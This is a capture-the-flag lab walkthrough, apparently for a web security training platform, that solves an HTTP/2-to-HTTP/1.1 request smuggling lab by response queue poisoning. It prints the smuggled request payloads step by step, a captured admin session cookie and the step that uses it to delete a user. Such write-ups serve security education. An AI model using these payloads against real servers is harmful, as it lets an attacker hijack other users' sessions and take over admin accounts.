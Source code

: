 # Response queue poisoning via H2.TE request smuggling

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

## The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection

---

step 1

```
Transfer-Encoding: chunked
Content-Length: 11

0

userid=test

```

![screenshot](./images/images_lab11/lab11_not_found_404.png)

step 2

```
Transfer-Encoding: chunked
Content-Length: 67

0

GET /post?postId=5 HTTP/1.1
Content-Length: 12

userid=test

```

![screenshot](./images/images_lab11/lab11_post_id_5.png)

step 3

```
Transfer-Encoding: chunked
Content-Length: 59

0

GET /admin HTTP/1.1
Content-Length: 12

userid=test
```

HTTP/2 401 Unauthorized

![screenshot](./images/images_lab11/lab11_http_2_http_1_1.png)

step 4

```
POST /x HTTP/2
Host: 0a17000003a74f25815f2af1001a00b0.web-security-academy.net
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0a17000003a74f25815f2af1001a00b0.web-security-academy.net
```

![screenshot](./images/images_lab11/lab11_found_302.png)

note down details

```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=stQrgL4chP9frilHAvELZpfBT85oG1fW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length:
```

step 5
`session=stQrgL4chP9frilHAvELZpfBT85oG1fW`

![screenshot](./images/images_lab11/lab11_admin_panel.png)

step 6

click on admin panel and delete carlos account

![screenshot](./images/images_lab11/lab11_lab_solve_delete_carlos.png)
